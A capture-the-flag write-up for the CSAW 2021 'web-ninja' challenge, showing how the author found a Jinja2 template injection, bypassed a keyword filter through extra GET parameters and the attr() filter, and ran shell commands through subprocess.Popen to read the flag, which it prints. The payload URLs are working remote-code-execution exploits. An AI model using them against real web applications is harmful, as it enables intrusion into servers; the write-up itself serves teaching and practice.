 # web-ninja

## Description

```
Hey guys come checkout this website i made to test my ninja-coding skills.

http://web.chal.csaw.io:5000
```

## Task Analysis

A shoutout to [Payloads All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) for being incredibly useful during this challenge.

The link given in the description presents us with the following webpage where the only notable page element is a field for user input:

![webpage](/CSAW-2021/web-ninja/screenshots/the_site.PNG)

When input is submitted, the page displays "Hello " followed by whatever was typed into the submission field.

I confirmed that xss injection was possible. However, this was not helpful to me since the site would not present our malicious scripts to anyone but ourselves. Switching gears, I used Burp to find that the site was built using Python 2.7, and I noted that the challenge's name, "Ninja" could potentially be hinting at the "Jinja" framework. I submitted the following to check for a SSTI vulnerability:
```
{{}}
```
The "{{}}" was not rendered, indicating it had been interpreted as a template and that there was potential for an SSTI injection. 

I used the following to confirm what framework was being used:

```
{{'7'*7}}
```
Which rendered as:
```
Hello 7777777
```
This confirmed my suspicion that Jinja2 was the framework being used. 
After attempting to access the config object using {{config.items()}} I recieved:

```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```
I now knew that there was a WAF to bypass.

Our goals from here were to: 
1. Find a way to bypass the WAF.
2. Create a payload that establishes RCE and allows us to look for the flag, which I suspected was likely stored either in the config object or in the page's working directory.
3. Create a payload that reads the flag and profit.

## Solution
# WAF Bypass
I found that The WAF was designed to only check the contents of the "value" GET parameter. Extra paremters went unchecked, so blacklisted keywords could be included in them and then accessed as strings via the request.args object. These strings could then be passed to the [built-in Jinja filter](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.attr) ```attr()```. The documentation tells us that ```attr()``` takes a string as an argument to "Get an attribute of an object. foo|attr("bar") works like foo.bar just that always an attribute is returned and items are not looked up..."
Using these features I could bypass the filter using urls constructed with additional get parameters like the following:

```
http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()}}&class=__class__&bas=__base__&sub=__subclasses__
```

The above url returned a list of all the subclasses of the object type, meaning I could access any class loaded in the Python environment. I used a script to search this list for the subprocess.Popen class, and found it at index 258.

# Establishing RCE

I could now use the following url execute the "ls" command and achieve RCE:

```
response = requests.get("http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.item)(258)(%27ls%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}&class=__class__&bas=__base__&sub=__subclasses__&item=__getitem__")
```

The above produced the following output:

![ls_output](/CSAW-2021/web-ninja/screenshots/ls_output.PNG)

# Read flag
I now knew that the flag was located in the same directory as the site's application script. This meant I could access the flag with the same technique by invoking the "cat" command:

```
response = requests.get("http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.item)(258)(%27cat flag.txt%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}&class=__class__&bas=__base__&sub=__subclasses__&item=__getitem__")
```
Which produced the following:
![ls_output](/CSAW-2021/web-ninja/screenshots/ls_output.PNG)

I found the flag! - flag{m0mmy_s33_1m_4_r34l_n1nj4}
